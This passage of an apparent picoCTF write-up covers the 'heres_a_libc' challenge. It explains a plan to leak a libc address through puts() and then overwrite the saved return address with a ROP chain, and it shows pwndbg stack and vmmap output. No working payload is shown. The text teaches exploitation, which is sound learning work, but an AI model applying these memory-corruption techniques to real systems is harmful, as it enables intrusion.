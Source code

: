 ## Find the absolute address of `system()`

The echo server's `do_stuff()` function runs in a `while(true)` loop, which
means we can potentially interact with the target process multiple times: first
a leak to help us resolve the absolute address of `system()` and then an
overwrite of the saved instruction pointer with a ROP chain.

If we're careful to make sure there are no nulls (i.e. 0s) in our input to the
target process, then we can potentially leak from the stack when `puts()` prints
our input back to us. Let's see if there are any interesting values in there
that might be helpful.

```gdb
pwndbg> x/16gx $rbp-0x30
0x7fff363db970: 0x00007fff363db9b0    > 0x00007f036a035bd2 <
0x7fff363db980: 0x00007f036a39d2a0      0x0000000000000000
0x7fff363db990: 0x0000000000000000      0x000000000000001b
0x7fff363db9a0: 0x00007fff363dba50      0x00000000004008a0
0x7fff363db9b0: 0x20456d4f634c6557      0x634520596d206f54
0x7fff363db9c0: 0x6556724573206f48      0x0000000000002152
0x7fff363db9d0: 0x00007fff363dbb38      0x0000000100000000
0x7fff363db9e0: 0x20656d6f636c6557      0x636520796d206f74
```

Let's check `vmmap` to see where these values might reside, which should help us
narrow down options for invesigation.

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r-xp     1000 0      /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/vuln_patched
          0x600000           0x601000 r--p     1000 0      /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/vuln_patched
          0x601000           0x602000 rw-p     1000 1000   /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/vuln_patched
         0x1c56000          0x1c77000 rw-p    21000 0      [heap]
    0x7f0369fb5000     0x7f036a19c000 r-xp   1e7000 0      /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/libc.so.6
    0x7f036a19c000     0x7f036a39c000 ---p   200000 1e7000 /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/libc.so.6
    0x7f036a39c000     0x7f036a3a0000 r--p     4000 1e7000 /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/libc.so.6
    0x7f036a3a0000     0x7f036a3a2000 rw-p     2000 1eb000 /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/libc.so.6
    0x7f036a3a2000     0x7f036a3a6000 rw-p     4000 0      [anon_7f036a3a2]
    0x7f036a3a6000     0x7f036a3cd000 r-xp    27000 0      /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/ld-2.27.so
    0x7f036a5cb000     0x7f036a5cd000 rw-p     2000 0      [anon_7f036a5cb]
    0x7f036a5cd000     0x7f036a5ce000 r--p     1000 27000  /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/ld-2.27.so
    0x7f036a5ce000     0x7f036a5cf000 rw-p     1000 28000  /home/kavefish/Documents/devel/ctf/picoctf/practice/heres_a_libc/ld-2.27.sothe
    0x7f036a5cf000     0x7f036a5d0000 rw-p     1000 0      [anon_7f036a5cf]
    0x7fff363bd000     0x7fff363de000 rw-p    21000 0      [stack]
    0x7fff363f1000     0x7fff363f5000 r--p     4000 0      [vvar]
    0x7fff363f5000     0x7fff363f7000 r-xp     2000 0      [vdso]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
```
